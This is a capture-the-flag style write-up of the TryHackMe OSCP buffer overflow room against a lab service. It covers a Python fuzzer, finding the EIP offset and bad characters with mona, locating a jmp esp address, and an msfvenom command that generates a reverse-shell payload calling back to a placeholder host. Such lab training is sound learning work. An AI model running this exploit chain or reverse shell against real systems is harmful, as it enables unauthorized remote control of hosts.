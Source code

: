 # Summary
In this room we will investigate a .exe file for buffer overflow exception. I was looking forward to this subject as it brings a whole new dimension to pentesting. We will be using Immunity Debugger with mona and will some scripts during the process.

Untill now I used ILSpy to reverse engineer C# applications but I've never had to work on a memory level like this before. Lot's to learn!

> Download Immunity Debugger from: https://www.immunityinc.com/.
> You simple drop mona.py into the PyCommands folder inside the Immunity Debugger application folder. Mona can be downloaded from https://github.com/corelan/mona.

> Note: Be sure to have both x86 and x64 VM's of Windows ready during OSCP as you can't debug x86 applications on a x64 architecture.


# Preparation
We start by connecting with xfreerdp and setting the network to home. After that we'll start Immunity Debugger and setup a working folder in mona:
```
!mona config -set workingfolder c:\mona\%p
```
Load the oscp.exe file in Immunity Debugger and start the program with ```F9```. We will now have the service running. 
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/OSCP%20Buffer%20Overflow/assets/1.png">

After a quick portscan we see that the application is running on port 1337. We connect with the application using netcat and discover that we can send commands using: ```OVERFLOW1 [value]```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/OSCP%20Buffer%20Overflow/assets/2.png">

# Fuzzing
We will use a fuzzer (01-fuzzer.py) to see if we can break the application by sending an increasingly amount of bytes. This will be done by sending ```A``` a hundred times and repeat that process untill we get a notification that the application crashed.

```py
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.46.150"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024) 
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024) 
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

We crashed the application around 2000 bytes. We will use this later on to detect the memory offset of the EIP location as a starting point for our exploit.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/OSCP%20Buffer%20Overflow/assets/3.png">


# Crash replication & Controlling EIP
We will create a cyclic pattern of a length 400 greater than 2000 as those extra bytes will hold our payload (reverse shell) later on:
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
We paste the output as buffer in 02-offset.py and run the script.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/OSCP%20Buffer%20Overflow/assets/4.png">

Run the following command to find the exact EIP offset
```
!mona findmsp -distance 2400
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/OSCP%20Buffer%20Overflow/assets/5.png">
The EIP offset is 1978.


# Finding Bad Characters
Before we can send our payload we need to make sure it doesn't hold any bad characters that will have a bad impact on the application. The zero byte (```\x00```) is one example of a bad char. This is a null-byte which will terminate the rest of the application code. We need to remove those from our payload.

> Method: At first we'll create a bin file of the current state of the program and crash it with bad chars. After that we will compare the memory enabling us to find the bad chars. We will repeat this process untill there are no more bad chars found.

So first we create the bin file with mona:
```
!mona bytearray -b "\x00"
```

Then we'll create a set of chars with Python (createbadchars.py):
```py
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

We add the characters to 03-badchar.py and change the EIP offset. 
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/OSCP%20Buffer%20Overflow/assets/6.png">

Run 03-badchar.py and note the ESP after the crash (it's in the CPU windows). Compare it with the bin:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/OSCP%20Buffer%20Overflow/assets/7.png">

Remove bad char from file and create new bin without bad chars:
```
!mona bytearray -b "\x00\x07"
```
Repeat these steps untill there are no more bad chars and the status is Unmodified.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/OSCP%20Buffer%20Overflow/assets/8.png">


# Finding a Jump Point
This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window.
```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/OSCP%20Buffer%20Overflow/assets/9.png">
We take the first address and reverse it as it's little-endian.

```
xaf/x11/x50/x62
```
This will be used as retn parameter in our exploit.

# Generate Payload
We generate the payload with msfvenom and add the bad chars as parameter.
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b '\x00\x07\x2e\xa0' EXITFUNC=thread -f python -v payload
```
Add the output as payload in 04-exploit.py

# Prepend NOPS
As the payload is encoded we need some space in memory to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (```\x90```) bytes:
```
padding = "\x90" * 16
```

# Exploit
After setting all parameters in 04-exploit.py we're finally ready to run our exploit against the target:
```
python 04-exploit.py
```
With our listener ready this will results in a reverse shell and because the application runs as admin we now have admin rights on the host.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/OSCP%20Buffer%20Overflow/assets/10.png">

# Conclusion
Had a lot of fun doing this room. Learned a lot about memory allocation but still have the feeling I'm only scratching the surface.




